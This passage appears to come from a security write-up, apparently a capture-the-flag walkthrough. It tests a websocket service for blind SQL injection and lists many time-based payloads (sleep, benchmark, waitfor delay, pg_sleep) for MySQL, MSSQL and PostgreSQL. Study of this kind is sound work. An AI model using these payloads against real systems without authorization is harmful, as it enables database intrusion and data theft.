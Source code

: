 Like this we’ve established a comunication with the ws, and now we can try to check if it is vulnerable to something like the `SQL Injection`.

By doing some trial and error we see that there are no error messages so we have to exploit it with time-based payloads.

This is the paylaod used

```
sleep(5)#
1 or sleep(5)#
" or sleep(5)#
' or sleep(5)#
" or sleep(5)="
' or sleep(5)='
1) or sleep(5)#
") or sleep(5)="
') or sleep(5)='
1)) or sleep(5)#
")) or sleep(5)="
')) or sleep(5)='
;waitfor delay '0:0:5'--
);waitfor delay '0:0:5'--
';waitfor delay '0:0:5'--
";waitfor delay '0:0:5'--
');waitfor delay '0:0:5'--
");waitfor delay '0:0:5'--
));waitfor delay '0:0:5'--
'));waitfor delay '0:0:5'--
"));waitfor delay '0:0:5'--
benchmark(10000000,MD5(1))#
1 or benchmark(10000000,MD5(1))#
" or benchmark(10000000,MD5(1))#
' or benchmark(10000000,MD5(1))#
1) or benchmark(10000000,MD5(1))#
") or benchmark(10000000,MD5(1))#
') or benchmark(10000000,MD5(1))#
1)) or benchmark(10000000,MD5(1))#
")) or benchmark(10000000,MD5(1))#
')) or benchmark(10000000,MD5(1))#
pg_sleep(5)--
1 or pg_sleep(5)--
" or pg_sleep(5)--
' or pg_sleep(5)--
1) or pg_sleep(5)--
") or pg_sleep(5)--
') or pg_sleep(5)--
1)) or pg_sleep(5)--
")) or pg_sleep(5)--
')) or pg_sleep(5)--
AND (SELECT * FROM (SELECT(SLEEP(5)))bAKL) AND 'vRxe'='vRxe
AND (SELECT * FROM (SELECT(SLEEP(5)))YjoC) AND '%'='
AND (SELECT * FROM (SELECT(SLEEP(5)))nQIP)
AND (SELECT * FROM (SELECT(SLEEP(5)))nQIP)--
AND (SELECT * FROM (SELECT(SLEEP(5)))nQIP)#
SLEEP(5)#
SLEEP(5)--
SLEEP(5)="
SLEEP(5)='
or SLEEP(5)
or SLEEP(5)#
or SLEEP(5)--
or SLEEP(5)="
or SLEEP(5)='
waitfor delay '00:00:05'
```